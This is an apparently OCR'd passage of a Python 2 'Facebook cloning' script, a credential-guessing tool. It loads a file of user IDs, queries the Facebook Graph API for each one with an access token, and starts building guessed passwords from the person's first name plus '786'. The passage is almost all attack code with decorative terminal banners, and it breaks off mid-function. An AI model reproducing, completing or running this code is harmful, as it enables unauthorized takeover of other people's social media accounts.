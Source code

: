 		try:

			idlist = raw_input('\x1b[1;96m[+] \x1b[1;93mEnter the file name \x1b[1;91m: \x1b[1;97m')

			for line in open(idlist,'r').readlines():

				id.append(line.strip())

		except IOError:

			print '\x1b[1;35;40m[!] \x1b[1;35;40mFile not found'

			raw_input('\n\x1b[1;35;40m[ \x1b[1;35;40mExit \x1b[1;35;40m]')

			super()

	elif peak =="0":

		menu()

	else:

		print "\x1b[1;91mFill in correctly"

		pilih_super()

		print "\033[1;36;40m[✺] Total IDs : \033[1;94m"+str(len(id))

	jalan('\033[1;34;40m[✺] Please Wait...')

	titik = ['.   ','..  ','... ']

	for o in titik:

		print("\r\033[1;32;40m[✺] Cloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)

	print "\n\033[1;94m        ❈     \x1b[1;91mTo Stop Process Press CTRL+Z \033[1;94m    ❈"

	print "   \033[1;31;48m●💋════════════════════════◄►════════════════════════💋●"

	jalan('                    \033[1;91mMR KRIBO start cloning Wait...')

	print  "  \033[1;36;48m ●💋════════════════════════◄►════════════════════════💋●" 

	def main(arg):

		global cekpoint,oks

		user = arg

		try:

			os.mkdir('out')

		except OSError:

			pass 

		try:

			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

			b = json.loads(a.text)

			pass1 = b['first_name'] + '786'
